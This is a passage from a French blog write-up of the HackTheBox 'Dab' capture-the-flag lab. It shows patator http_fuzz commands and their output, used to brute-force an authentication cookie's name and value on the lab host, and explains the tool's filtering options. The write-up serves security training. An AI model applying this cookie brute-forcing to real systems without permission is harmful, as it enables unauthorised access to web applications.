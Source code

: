 Bref c'est le moment de patater !  

Premièrement essayons de retrouver le nom du cookie attendu :  

```plain
$ patator http_fuzz url='http://10.10.10.86:8080/' header='Cookie: FILE0=nawak;' 0=common_query_parameter_names.txt  -x ignore:clen=322
13:42:13 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-12 13:42 CET
13:42:13 patator    INFO -
13:42:13 patator    INFO - code size:clen       time | candidate                          |   num | mesg
13:42:13 patator    INFO - -----------------------------------------------------------------------------
13:42:19 patator    INFO - 200  496:324        0.054 | password                           |  1295 | HTTP/1.1 200 OK
13:42:43 patator    INFO - Hits/Done/Skip/Fail/Size: 1/5697/0/0/5697, Avg: 187 r/s, Time: 0h 0m 30s

Access denied: password authentication cookie incorrect
```

J'avoue qu'on aurait pu le trouver tout seul celui-ci. Continuons avec la valeur possible :  

```plain
$ patator http_fuzz url='http://10.10.10.86:8080/' header='Cookie: password=FILE0;' 0=common_query_parameter_names.txt  -x ignore:clen=324
13:45:18 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-12 13:45 CET
13:45:18 patator    INFO -
13:45:18 patator    INFO - code size:clen       time | candidate                          |   num | mesg
13:45:18 patator    INFO - -----------------------------------------------------------------------------
13:45:26 patator    INFO - 200  712:540        0.053 | secret                             |  1596 | HTTP/1.1 200 OK
13:45:48 patator    INFO - Hits/Done/Skip/Fail/Size: 1/5697/0/0/5697, Avg: 190 r/s, Time: 0h 0m 29s
```

Il faut donc un cookie *password* de valeur *secret*.  

Notez ici que pour déterminer la valeur passée à l'option *ignore* je fais une première passe rapide sans spécifier l'option pour noter sa valeur générique dans l'output, stoppe le process et relance avec l'option.  

Ici *clen* correspond aux nombres de caractères présents dans la page, ce qui génère souvent moins de faux positifs qu'utiliser la taille brute des réponses (*size*) qui est souvent du contenu compressé.  

Armé de cette info j'ai installé l'extension Firefox *Cookie Manager*, ce n'est clairement pas la meilleure mais elle a fait le job :  

![HackTheBox Dab CTF cookie edit](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/dab/dab_cookie_manager.png)
